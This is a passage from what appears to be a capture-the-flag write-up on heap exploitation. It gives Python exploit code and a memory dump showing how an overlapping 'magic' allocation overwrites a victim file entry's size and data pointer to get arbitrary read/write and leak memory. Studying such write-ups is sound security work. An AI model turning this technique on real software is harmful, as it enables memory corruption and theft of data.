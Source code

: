 Whether the victim is allocated after or before `magic`, it doesn't really matter. In the first case, we keep creating enough file entries until we reach `victim`, while in the latter case, `magic` has practically already overlapped with `victim`.

```python
# allocate victim / file entry
make_file_entries(victim['allocs_needed'])
```

```
0x4994b45a:	0x4141414141414141	0x4141414141414141 _ _ _ _ _
0x4994b46a:	0x4141414141414141	0x4141414141414141            \
0x4994b47a:	0x4141414141414141	0x4141414141414141             \
0x4994b48a:	0x4141414141414141	0x4141414141414141              \
0x4994b49a:	0x4141414141414141	0x4141414141414141                 magic
0x4994b4aa:	0x4141414141414141	0x4141414141414141              /
0x4994b4ba:	0x4141414141414141	0x4141414141414141             /
0x4994b4ca:	0x4141414141414141	0x4141414141414141 _ _ _ _ _  /          
    .
    .
    .
0x4994b88c:	0x4141414141414141	0x4141414141414141
0x4994b89c:	0x4141414141414141	0x4141414141414141
                    |parent|            |name| | |type|
0x4994b8ac:	0x0000000054785b4c	0x656c696600000002 _ _ _ _ _ _
0x4994b8bc:	0x414141410030375f	0x4141414141414141             \
                      |size|                |data ptr|                    (struct file_entry)victim
0x4994b8cc:	0x0000000000000000	0x4141414141414141 _ _ _ _ _ _ /
```

### Arbitrary R/W

Now that we've successfully gained control over `victim`, we can overwrite its structure fields, such as the `size` and `data`.

```python
def craft_file_entry(size, addr):
    data = 'A' * padlen
    file_entry   = p64(0xc01db33f)            # entry.parent_directory
    file_entry += p32(FILE_ENTRY_TYPE)       # entry.type
    file_entry += 'victim'.ljust(20, '\x00') # entry.name
    file_entry += p64(size)                  # size
    file_entry += p64(addr)                  # data
    file_entry = file_entry.ljust(file_max_size, '\x00')

    put('magic', file_max_size, data + file_entry)
```

Using the `get` command with `victim` as its argument, we can leak `size` bytes from `victim`'s `data` pointer.

```python
def leak(addr, size):
    craft_file_entry(size, addr)
    return get('victim')
```
